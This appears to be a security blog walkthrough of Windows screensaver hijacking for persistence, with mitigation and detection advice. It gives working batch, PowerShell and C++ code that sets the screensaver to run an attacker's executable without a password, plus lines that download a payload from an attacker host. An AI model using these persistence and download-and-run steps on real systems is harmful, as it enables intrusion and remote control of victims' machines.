 # Persistence through Windows Screensaver Hijacking

> Austin Lai | August 17th, 2022

---

<!-- Description -->

Brief description: A simple walkthrough on Windows Screensaver Hijacking for persistence.

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [Persistence through Windows Screensaver Hijacking](#persistence-through-windows-screensaver-hijacking)
    - [Table of Contents](#table-of-contents)
    - [Introduction](#introduction)
    - [Simple Demo](#simple-demo)
    - [Additional Information](#additional-information)

<!-- /TOC -->

## Introduction

Screensavers are programs that execute after a configurable time of user inactivity, an adversaries may establish persistence by executing malicious content triggered by screensavers. This feature of Windows it is known to be abused by threat actors as a method of persistence.

Screensavers are Portable Executable (PE) files with a `.scr` extension by default. The Windows screensaver application `scrnsave.scr` is located in `C:\Windows\System32\` and `C:\Windows\sysWOW64\` on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (`HKCU\Control Panel\Desktop\`) and could be manipulated to achieve persistence:

· `SCRNSAVE.exe` - set to malicious PE path.
· `ScreenSaveActive` - set to '1' to enable the screensaver.
· `ScreenSaverIsSecure` - set to '0' to not require a password to unlock.
· `ScreenSaveTimeout` - sets user inactivity timeout before screensaver is executed.

This is low level persistence technique as the registry keys stored under “HKCU“ which does not require system privilege. Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain time-frame of user inactivity.

## Simple Demo

To demo this, we will set the screensaver path to basic batch script to load message box to display "You are Pwned!" with the idle time of 10 seconds when the user is inactive.

Sample basic batch script as below:

```batch
@echo off
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /d 1 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\pwn.bat /f

echo @echo off > C:\Windows\Temp\pwn.bat
echo msg %username% You are Pwned! >> C:\Windows\Temp\pwn.bat
```

You may also use powershell script with below:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive' -Value '1'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure' -Value '0'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'C:\Windows\Temp\pwn.bat'
```

Once the registry changed, you may use command below to verify registry:

```batch
reg query "HKCU\Control Panel\Desktop" /s
```

If you want to remove the artifacts of registry, you can use powershell or normal dos command below:

```powershell
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure'
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE'
```

```batch
reg delete /f Registry_key_path /v ScreenSaveTimeOut
reg delete /f Registry_key_path /v ScreenSaveActive
reg delete /f Registry_key_path /v ScreenSaverIsSecure
reg delete /f Registry_key_path /v SCRNSAVE.EXE
```

Adversaries may use tools such as Sliver C2 implants/beacon, reverse shell from msfvenom or even simple socat/powershell to callback to attacker machines. Simply added line below to download the malicious executable and change the path of “SCRNSAVE.EXE“ to malicious executable.

```batch
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\plogin.exe

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.147.6/plogin.exe', 'C:\Windows\Temp\plogin.exe')"
```

### ScreensaverHijack with command PWNED

![ScreensaverHijack-with-command-PWNED](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-command-PWNED.gif)

### ScreensaverHijack with sliver implants

![ScreensaverHijack-with-sliver-implants](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-sliver-implants.gif)

We may also use C++ and compile as screensaver register key changer executable using command below:

```bash
x86_64-w64-mingw32-g++ -O2 screensaver-reg.cpp -o screensaver-reg.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Sample of C++ code as below:

```c++
#include <windows.h>
#include <string.h>
#include <iostream>
#include <urlmon.h>
#pragma comment(lib,"urlmon.lib")

using namespace std;

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  
  // Change this to point to YOUR EXE/Script
  const char* placeholder = "C:\\Windows\\Temp\\plogin.exe";
  
  // Change timeouts duration
  const char* timeouts = "5";
  
  // Enable screensavers
  const char* enabled_screensavers = "1";
  
  // Disabled password
  const char* disabled_password = "0";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)enabled_screensavers, strlen(enabled_screensavers));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)timeouts, strlen(timeouts));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaverIsSecure", 0, REG_SZ, (unsigned char*)disabled_password, strlen(disabled_password));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)placeholder, strlen(placeholder));
    RegCloseKey(hkey);
  }
  
  // Enable this if you need to download payload to the victim machines
  // HRESULT hr = URLDownloadToFile(0, L"http://192.168.147.6/plogin.exe", L"C:\Windows\Temp\plogin.exe", 0, NULL);
  // if (hr == S_OK){
  //   cout << "ok" << endl;
  // }
  return 0;
}
```

## Additional Information

This persistence technique mapping MITRE ATT&CK as below:

- TA0003/Persistence
- T1546/Event Triggered Execution
- T1546.002/Event Triggered Execution: Screensaver

To mitigate this, we should:

- Use Group Policy to disable screensavers if they are unnecessary.
- Block `.scr` files from being executed from non-standard locations.

Blue team should also include below for detection:

- Monitor process execution and command-line parameters of `.scr` files.
- Monitor changes to screensaver configuration changes in the Registry that may not correlate with typical user behavior.
- Though, many security solution including in-built Windows Defender will be able to monitor and detect this persistence method.

Assumption:

- Screensavers are NOT DISABLED by group policy.
- Bypass or managed to disabled Windows Defender.
- Session will drop when the user returns back and the system is not in idle mode.
- If intend to use powershell script, will need to bypass Windows Defender and allow powershell script to execute.

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB
